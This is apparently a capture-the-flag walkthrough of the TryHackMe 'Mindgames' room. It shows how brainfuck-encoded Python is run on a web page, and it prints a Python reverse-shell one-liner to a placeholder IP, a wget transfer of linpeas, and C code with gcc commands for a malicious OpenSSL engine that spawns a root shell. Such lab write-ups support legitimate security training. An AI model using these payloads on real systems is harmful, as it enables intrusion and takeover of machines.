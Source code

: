 # MindGames

“Just a terrible idea...”

A detailed walkthrough on the [TryHackMe](https://tryhackme.com) room [Mindgames](https://tryhackme.com/room/mindgames) by 3J0SKA

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Untitled.png)

## 1- Scanning And Enumerating

Now first we will scan the machine to find any ports. 

For scanning I will be using rustscan. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%201.png)

Here we found 2 ports, one running on port 22 (SSH) and the other one running on port 80 (HTTP).

Lets check out the HTTP page now! 

By looking at the HTTP page we can see some decoding happening.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%202.png)

And then we also have a input which can be used to decode the above decoding. But we don’t know the decoding yet.

After researching for a while, I got to know that this decoding is called `brainfuck` so I copied this `Hello, World` code and decoded it.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%203.png)

After decoding this, I found out that the input field actually takes the `brainfuck` decoding and decodes it, after decoding it executes are code.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%204.png)

And here in this case the code is written in python, So to make sure we can actually execute command on the system using python I made a simple script which executes the command `ls` on the system. 

Here’s the script : 

```python
import os;os.system("ls")
```

So here we have our script, but before we can execute it we have to covert it to `brainfuck` encoding. Here’s what I got!

So let’s execute the code.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%205.png)

Here you go! It works and we can execute python scripts on the system. Now the obvious thing to do is to execute a reverse shell on the system!

Here is the code I used to do that : 

```python
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

You have to make sure that the script doesn’t use any libraries that can’t be used without installing.

And after executing the code you should have a reverse connect! 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%206.png)

Now as we have the foothold of the system, lets get the `user.txt` file!

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%207.png)

![https://c.tenor.com/TPXMriXwLD4AAAAC/lets-go-the-rock.gif](https://c.tenor.com/TPXMriXwLD4AAAAC/lets-go-the-rock.gif)

## 2- Privilege Escalation!

Now we have a foothold on the system and we also got our user.txt flag, now its time to get `root.txt`

I tried all of basic privilege escalation techniques like sudo files or suid, but could do anything with them. Now we will use `[linpeas.sh](http://linpeas.sh)` to get more information.

First we have to get the file on the system, to do that lets set up a Python server.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%208.png)

Now we can `wget` the file. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%209.png)

Now you can execute the file, after giving it the permissions using `chmod`. 

So after sometime I found this in the linpeas scan.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2010.png)

So I immediately searched for this on [`https://gtfobins.github.io`](https://gtfobins.github.io/) and found this. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2011.png)

I couldn’t understand what this command was doing and it was also throwing a error, so I decided to find something else for the privilege escalation. 

After searching for it, I came across this pull request on github : [https://github.com/GTFOBins/GTFOBins.github.io/pull/125#issuecomment-612586734](https://github.com/GTFOBins/GTFOBins.github.io/pull/125#issuecomment-612586734)

And it had this C code : 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", NULL);
}
```

Now save this in a file and compile it using `gcc` on your system and then transfer the file to the victim machine. 

Make sure you save your file with the name `openssl.c` or it might not work

Here are the commands to execute : 

```bash
gcc -fPIC -o openssl.o -c openssl.c
gcc -shared -o openssl.so openssl.o
```

Now you should have a file named `[open.so](http://open.so)` that you have to send to the machine using wget.

After that you have to give permissions to the file. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2012.png)

And now you can execute the script!

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2013.png)

Hurray!!! We got the root privileges! 

Now you can find the flag at `/root/root.txt`

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2014.png)

![https://c.tenor.com/HJ0iSKwIG28AAAAC/yes-baby.gif](https://c.tenor.com/HJ0iSKwIG28AAAAC/yes-baby.gif)